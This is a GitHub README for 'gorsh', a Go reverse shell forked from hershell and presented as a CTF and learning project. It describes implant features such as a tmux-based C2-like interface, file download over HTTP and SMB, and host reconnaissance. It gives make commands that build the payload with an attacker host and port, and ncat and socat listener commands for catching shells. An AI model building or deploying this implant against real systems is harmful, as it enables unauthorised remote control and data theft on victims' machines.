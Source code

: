 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a pseudo-C2-like interface, creating a new window with each agent callback
* Download files with HTTP on all platform
* Download files with SMB on all windows
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

Roadmap:

- [ ] Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)
- [ ] Recon module for analyzing things like tasks, services, and host-based protections
- [ ] Dotnet integration so `shell` drops into a Runspace with System.Management.Automation. 
      Bacially PowerShell without PowerShell.


## Getting started

Make sure to read the Makefile. It gives you a good idea of what's going on.

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

You can set the following environment variables to compile using `go build`:

- `GOOS`: the target OS
- `GOARCH`: the target architecture
- `LHOST`: the attacker IP or domain name
- `LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

## Catching the shell

The `make listen` command kicks off a tmux session and creates new windows on every new connection.
Feed it a port number as LPORT.

```sh
make listen LPORT=8080

# once a client connects
tmux attach -t GORSH
```

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
